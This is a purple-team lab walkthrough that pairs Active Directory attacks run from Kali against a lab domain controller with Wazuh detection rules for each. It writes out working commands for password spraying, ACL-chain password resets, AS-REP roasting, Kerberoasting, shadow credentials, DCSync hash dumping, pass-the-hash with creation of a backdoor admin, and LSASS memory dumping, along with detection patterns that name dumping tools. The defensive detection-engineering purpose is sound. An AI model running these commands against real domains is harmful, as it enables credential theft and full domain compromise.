# Active Directory Purple Team Walkthrough (Attack & Detection Guide)

This walkthrough demonstrates step-by-step offensive Active Directory attacks executed from Kali Linux (`192.168.10.20`) against the `soclab.local` Domain Controller (`192.168.10.10`) and their corresponding real-time detections in Wazuh SIEM (`192.168.20.10`).

---

## 1. Environment Preparation & Telemetry Verification
> **Note on Lab Environment State:** While **BadBlood** (03-badblood.yml) populates the domain with randomized users and ACL paths on each build, the specific multi-hop ACL chain demonstrated in this walkthrough (GRACIE_STOKES ➔ ELIJAH_HINTON ➔ MITCHEL_CLINE ➔ RUSTY_POLLARD ➔ Domain Root) was explicitly configured on the Domain Controller to provide a deterministic testbed for validating the custom Wazuh detection rules.

On the Wazuh Dashboard, both Windows endpoints (`WINSERVER-AD` and `WIN11-WKS`) are enrolled and actively forwarding `Security`, `System`, and `Microsoft-Windows-Sysmon/Operational` event channels.



---

## 2. Attack 1: SMB Brute Force & Password Spraying (`T1110.001` / `T1110.003`)

### Red Team Execution
Using `nxc` (NetExec), we simulate a password spraying attack across domain accounts followed by a valid authentication:

```bash
# 1. Password Spraying: testing a single password across multiple accounts
nxc smb 192.168.10.10 -u users.txt -p 'S0cL@bPassword2026!' --continue-on-success

# 2. Targeted Brute Force: testing multiple passwords against a single account
nxc smb 192.168.10.10 -u labadmin -p passwords.txt --continue-on-success
```




### Blue Team Detection 
* **Rule `100010` / `100020` (Level 10):** Triggers after multiple failed logon attempts (`Event ID 4625`).
* **Rule `100011` / `100012` (Level 12):** Correlates the preceding brute-force/spray alert with a subsequent `Event ID 4624` logon from the same IP or target user.



---

## 3. Attack 2: BloodHound Reconnaissance & ACL Abuse Chain (`T1087.002` / `T1098`)

### Red Team Execution
1. Collect Active Directory bloodhound data using low-privilege credentials:
   ```bash
   bloodhound-python -u GRACIE_STOKES -p 'Summer2026!' -d soclab.local -ns 192.168.10.10 -c All
   ```
   

2. Abuse the `GenericAll` ACL chain using `bloodyAD` by resetting target user passwords across the hops:
   ```bash
   bloodyAD -u GRACIE_STOKES -p 'Summer2026!' -d soclab.local --host 192.168.10.10 set password ELIJAH_HINTON 'Pwned2026!'
   bloodyAD -u ELIJAH_HINTON -p 'Pwned2026!' -d soclab.local --host 192.168.10.10 set password MITCHEL_CLINE 'Pwned2026!'
   bloodyAD -u MITCHEL_CLINE -p 'Pwned2026!' -d soclab.local --host 192.168.10.10 set password RUSTY_POLLARD 'Pwned2026!'
   ```



### Blue Team Detection 
* **Rule `100070` (Level 10):** Logs individual password reset attempts (`Event ID 4724`).
* **Rule `100071` (Level 14):** Fires when 3 or more password resets occur across the domain within 300 seconds, catching multi-hop ACL traversal.



---

**Note:** Ensure Kali's clock is synced with the DC (192.168.10.10) before running Impacket Kerberos tools to avoid KRB_AP_ERR_TKT_EXPIRED.

## 4. Attack 3: AS-REP Roasting (`T1558.004`)

### Red Team Execution 
1. Disable Kerberos pre-authentication (`UF_DONT_REQUIRE_PREAUTH`) on the target account and request an unauthenticated RC4 TGT:
   ```bash
   bloodyAD -u labadmin -p 'S0cL@bPassword2026!' -d soclab.local --host 192.168.10.10 add uac GRACIE_STOKES -f DONT_REQ_PREAUTH
   impacket-GetNPUsers 'soclab.local/' -usersfile <(echo "GRACIE_STOKES") -dc-ip 192.168.10.10 -no-pass -request
   ```



### Blue Team Detection 
* **Rule `100062` (Level 13):** Detects `Event ID 4768` where `preAuthType` is `0` and `ticketEncryptionType` is `0x17` (RC4-HMAC).



---

## 5. Attack 4: Targeted Kerberoasting & Automated TGS Sweep (`T1558.003`)

### Red Team Execution 
1. Set arbitrary SPNs (`servicePrincipalName`) on target user accounts for targeted Kerberoasting:
   ```bash
   for u in GRACIE_STOKES ELIJAH_HINTON DAMIEN_GREER; do
     bloodyAD -u labadmin -p 'S0cL@bPassword2026!' -d soclab.local --host 192.168.10.10 set object $u servicePrincipalName -v "MSSQLSvc/$u.soclab.local:1433"
   done
   ```
2. Request RC4-encrypted TGS tickets for all domain SPNs:
   ```bash
   impacket-GetUserSPNs 'soclab.local/labadmin:S0cL@bPassword2026!' -dc-ip 192.168.10.10 -request
   ```



### Blue Team Detection
* **Rule `100063` (Level 14):** Catches the LDAP modification (`Event ID 5136`) when `servicePrincipalName` is written to a user object.
* **Rule `100060` (Level 12) & Rule `100061` (Level 15):** Detects RC4 (`0x17`) TGS ticket requests (`Event ID 4769`) and escalates to Level 15 when 3+ SPNs are requested within 60 seconds from the same host.

## Wazuh Dashboard Rule 100060, 100061, and 100063 Alerts






---

## 6. Attack 5: Shadow Credentials (`T1098`)

### Red Team Execution 
Using `bloodyAD`, inject a rogue KeyCredential into the target user's `msDS-KeyCredentialLink` attribute:

```bash
bloodyAD -u labadmin -p 'S0cL@bPassword2026!' -d soclab.local --host 192.168.10.10 add shadowCredentials ELIJAH_HINTON
```



### Blue Team Detection 
* **Rule `100075` (Level 15):** Triggers immediately on `Event ID 5136` when `attributeLDAPDisplayName` matches `msDS-KeyCredentialLink`.



---

## 7. Attack 6: DCSync Replication & Pass-the-Hash (`T1003.006` / `T1550.002`)

### Red Team Execution
1. Dump the `krbtgt` and domain admin NTLM hashes using `impacket-secretsdump` (DCSync):
   ```bash
   impacket-secretsdump 'soclab.local/labadmin:S0cL@bPassword2026!@192.168.10.10' -just-dc-user krbtgt
   ```
   

2. Authenticate using Pass-the-Hash and execute remote commands via WMI:
   ```bash
   impacket-wmiexec -hashes :<NTLM_HASH> Administrator@192.168.10.10 "net user backdoor_admin P@ssw0rd123! /add /domain"
   ```

### Blue Team Detection 
* **Rule `100052` (Level 15):** Identifies `Event ID 4662` directory replication requests containing `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` where `subjectUserName` does not end with `$` (filtering out legitimate DC machine replication).
* **Rule `100080` (Level 12) & Rule `92652`:** Detects NTLM network logons (`LogonType 3`, `NtLmSsp`) to privileged accounts from external IPs.
* **Rule `100040` (Level 12) & Rule `100041` (Level 15):** Detects domain user creation (`Event ID 4720`) and correlates Sysmon process creation (`Event ID 1`) spawned under `ADMIN$\__` by Impacket `wmiexec`.



---

## 8. Attack 7: LSASS Memory Dumping (`T1003.001`)

### Red Team Execution (Windows Host)
Execute a Living-off-the-Land (LotL) memory dump of `lsass.exe` using `comsvcs.dll`:

```powershell
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Windows\Temp\lsass.dmp full
```

### Blue Team Detection (Wazuh SIEM)
* **Rule `100031` (Level 12):** Triggers on Sysmon `Event ID 10` (`ProcessAccess`) targeting `lsass.exe` with high-privilege `GrantedAccess` masks (`0x1fffff`, `0x143a`, `0x1010`, etc.).
* **Rule `100032` (Level 15):** Escalates to critical when the `sourceImage` matches known dumping tools (`rundll32.exe`, `procdump.exe`, `mimikatz.exe`, `nanodump`).


